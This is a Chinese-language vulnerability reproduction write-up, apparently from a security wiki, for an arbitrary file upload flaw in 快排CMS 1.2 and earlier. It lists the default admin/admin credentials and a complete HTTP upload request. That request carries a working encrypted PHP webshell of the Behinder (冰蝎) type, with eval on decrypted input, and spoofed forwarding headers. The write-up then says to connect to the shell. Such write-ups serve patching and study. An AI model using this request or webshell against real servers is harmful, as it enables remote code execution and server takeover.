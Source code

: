 # 快排CMS 任意文件上传漏洞

## 漏洞描述

快排CMS 后台管理模块存在任意文件上传漏洞，攻击者通过漏洞可以控制服务器

## 漏洞影响

> [!NOTE]
>
> 快排 CMS <= 1.2

## 环境搭建

https://gitee.com/qingzhanwang/kpcms

## 漏洞复现

登录页面如下, 默认账号密码为 **admin/admin**

```
http://xxx.xxx.xxx.xxx/admin.php/index/login.html
```

![](http://wikioss.peiqi.tech/vuln/kp-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

源码中没有对上传文件的后缀检测

```
thinkphp/library/think/File.php
```

![](http://wikioss.peiqi.tech/vuln/kp-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

任意找一处文件上传点

![](http://wikioss.peiqi.tech/vuln/kp-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

上传抓包获取文件地址

![](http://wikioss.peiqi.tech/vuln/kp-4.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

```
POST /admin.php/index/upload.html?dir=image HTTP/1.1
Host: 192.168.1.108:88
Content-Length: 935
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.108:88
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryYIt9WaQZiDMrwAVm
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/avif,http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/webp,http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.108:88/admin.php/config/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: admin_id=IphHb2Z%2FRG9gIXGA7HpPzQ%3D%3D; menu_show=0; menu_id=menu_22; url=%2Fadmin.php%2Fconfig%2Findex.html
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

------WebKitFormBoundaryYIt9WaQZiDMrwAVm
Content-Disposition: form-data; name="localUrl"

C:\fakepath\shell.php
------WebKitFormBoundaryYIt9WaQZiDMrwAVm
Content-Disposition: form-data; name="imgFile"; filename="shell.php"
Content-Type: application/octet-stream

<?php
@error_reporting(0);
session_start();
    $key="e45e329feb5d925b";
	$_SESSION['k']=$key;
	$post=file_get_contents("php://input");
	if(!extension_loaded('openssl'))
	{
		$t="base64_"."decode";
		$post=$t($post."");
		
		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15]; 
    			}
	}
	else
	{
		$post=openssl_decrypt($post, "AES128", $key);
	}
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __invoke($p) {eval($p."");}}
    @call_user_func(new C(),$params);
?>

------WebKitFormBoundaryYIt9WaQZiDMrwAVm--

```

连接冰蝎木马即可

![](http://wikioss.peiqi.tech/vuln/kp-5.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)